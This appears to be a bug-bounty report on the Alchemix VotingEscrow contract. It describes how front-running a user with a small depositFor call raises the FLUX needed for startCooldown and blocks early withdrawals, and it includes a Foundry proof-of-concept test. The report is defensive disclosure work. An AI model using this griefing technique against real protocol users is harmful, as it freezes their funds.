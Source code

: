 # 31080 - \[SC - Insight] DoS in startCooldown when users want start cool...

Submitted on May 12th 2024 at 11:24:32 UTC by @Lastc0de for [Boost | Alchemix](https://immunefi.com/bounty/alchemix-boost/)

Report ID: #31080

Report type: Smart Contract

Report severity: Insight

Target: https://github.com/alchemix-finance/alchemix-v2-dao/blob/main/src/VotingEscrow.sol

Impacts:

* Permanent freezing of unclaimed yield
* Griefing (e.g. no profit motive for an attacker, but damage to the users or the protocol)
* Temporary freezing of funds for 12 hours

## Description

## Brief/Intro

There will be a one-epoch `cooldown` period between unlocked tokens and being able to claim them to the user’s wallet. Locked tokens can become eligible for unlocks by burning Flux tokens. When the user wants to withdraw his/here locked tokens, he/she must start the `cooldDown` mechanism before withdrawing, otherwise he will not be able to withdraw.

Activating this process is possible in two ways:

* 1- lock period is expired
* 2- lock period is not expired

There is a vulnerability in model 2 that allows a malicious user to freeze the activation of this process for a short or long time for users who want to use the second method ( Denial-of-Service).

## Vulnerability Details

* Vulnerable contract is `VotingEscrow.sol`:

https://github.com/alchemix-finance/alchemix-v2-dao/blob/main/src/VotingEscrow.sol

* Vulnerable function is `startCooldown()` : https://github.com/alchemix-finance/alchemix-v2-dao/blob/f1007439ad3a32e412468c4c42f62f676822dc1f/src/VotingEscrow.sol#L778C1-L804C6

```
    function startCooldown(uint256 _tokenId) external {
//...

        locked[_tokenId].cooldown = block.timestamp + WEEK;

        // If lock is not expired, cooldown can only be started by burning FLUX
        if (block.timestamp < _locked.end) {
            // Amount of FLUX required to ragequit
            uint256 fluxToRagequit = amountToRagequit(_tokenId); // @AUDIT-1

            require(IFluxToken(FLUX).balanceOf(msg.sender) >= fluxToRagequit, "insufficient FLUX balance"); // @AUDIT-2

            IFluxToken(FLUX).burnFrom(msg.sender, fluxToRagequit);

            emit Ragequit(msg.sender, _tokenId, block.timestamp);
        }

        emit CooldownStarted(msg.sender, _tokenId, _locked.cooldown);
    }
```

When a user want withdraw his/here locked amounts before do that should start coold down process. Above we can see the function that activates this process. When a user who wish to unlock their veALCX early, should burn Flux Tokens this means that should buy Flux Token of other users

## Deep dive

* AUDIT-1 For this, the `VotingEscrow.sol` first calculates Amount of FLUX required to `ragequit` by calling the `amountToRagequit()` function: https://github.com/alchemix-finance/alchemix-v2-dao/blob/f1007439ad3a32e412468c4c42f62f676822dc1f/src/VotingEscrow.sol#L345C1-L356C6

```
    /// @inheritdoc IVotingEscrow
    function amountToRagequit(uint256 _tokenId) public view returns (uint256) {
        // amount of flux earned in one epoch
        uint256 oneEpochFlux = claimableFlux(_tokenId); // @AUDIT-1-A

//..
    }

```

* AUDIT-1-A In the first line of this function, the amount of flux earned in one epoch is obtained by calling the `claimableFlux` function: https://github.com/alchemix-finance/alchemix-v2-dao/blob/f1007439ad3a32e412468c4c42f62f676822dc1f/src/VotingEscrow.sol#L377C1-L385C6

```
    function claimableFlux(uint256 _tokenId) public view returns (uint256) {
        // If the lock is expired, no flux is claimable at the current epoch
        if (block.timestamp > locked[_tokenId].end) {
            return 0;
        }

        // Amount of flux claimable is <fluxPerVeALCX> percent of the balance
        return (_balanceOfTokenAt(_tokenId, block.timestamp) * fluxPerVeALCX) / BPS; // @AUDIT-1-A-a
    }
```

* AUDIT-1-A-a This line calculate and return Amount of flux claimable is percent of the balance
* as you can see this function calculate returned value by percent of the balance so by deposit for a `tokenId` can manipulate this value.

We can do this by calling the `depositFor()` function: https://github.com/alchemix-finance/alchemix-v2-dao/blob/f1007439ad3a32e412468c4c42f62f676822dc1f/src/VotingEscrow.sol#L667C1-L678C1

```
    function depositFor(uint256 _tokenId, uint256 _value) external nonreentrant {
//...
    }

```

## but what is the problem?

So we go to the beginning of the report to see `AUDIT-2`:

* AUDIT-2 : `require(IFluxToken(FLUX).balanceOf(msg.sender) >= fluxToRagequit, "insufficient FLUX balance");`

If the balance of the Flux Token for user is less than the calculated value meaning `fluxToRagequit`, the user cannot call this function for a while, so the user must increase the balance of Flux tokens in his wallet, and this is only possible by buying tokens from other users.

## Secnario

For example, Bob wants to withdraw his tokens before the lock time done.

1- Bob knows for do this should buy 5 Flux Token

2- Bob buyed 5 Flux Token

3- Alex knows Bob Want withdraw his locked tokens (Ex:front-running)

4- Alex before Bob make call depositFor() - for Bob tokenId with small amount

5- Bob cant start coold down because he does not have enough tokens for this

6- Bob should buy more Flux Token

7- A malicious user can do this for a long time and prevent the withdrawal of other users' tokens

## Impact Details

Attacker can Freeze this function for users so users for short -or long time cant withdraw his/here locked tokens

## References

https://alchemixfi.medium.com/vealcx-update-272e8900ac5a

## Proof of Concept

1- Add this function in `VotingEscrow.t.sol` file :

```
    function test_AmountToRagequit_Fuzzing() public {
        uint256 tokenId = createVeAlcx(admin, TOKEN_1, THREE_WEEKS, false);

        uint256 ragequitAmount = veALCX.amountToRagequit(tokenId);

        // Log regequitAmount
        console.log("#BEFORE - How much `ragequitAmount` need ? %d", ragequitAmount);

        // Mint needed Ragequit and withdraw token
        hevm.prank(address(veALCX));
        flux.mint(admin, ragequitAmount);

        // Approve Flux token
        hevm.prank(admin);
        flux.approve(address(veALCX), ragequitAmount);


        /* Maliciouse User call `depositFor()` function for tokenId with small amount
            1- Mint bpt token for this Maliciouse contract
            2- call depositFor() , for tokenId
        */
        deal(bpt, address(this), TOKEN_1);
        IERC20(bpt).approve(address(veALCX), TOKEN_1);
        veALCX.depositFor(tokenId, 1e7); // Deposit small amount for user - `tokenId`

        // Log regequitAmount
        uint256 ragequitAmount_AFTER = veALCX.amountToRagequit(tokenId);
        console.log("#AFTER - How much `ragequitAmount` need ? %d", ragequitAmount_AFTER);

        // check `ragequitAmount` and `ragequitAmount_AFTER` is equal or not
        assertEq(ragequitAmount,ragequitAmount_AFTER,"`ragequitAmount` before and after not equal because:");

        hevm.expectRevert("startCooldown() TX reverted because : `ragequitAmount` increased by Maliciouse user");
        hevm.prank(admin);
        veALCX.startCooldown(tokenId);
    }
```

2- Runing test

```
forge test --match-test "test_AmountToRagequit_Fuzzing" --fork-url https://eth-mainnet.public.blastapi.io -vvvv
```
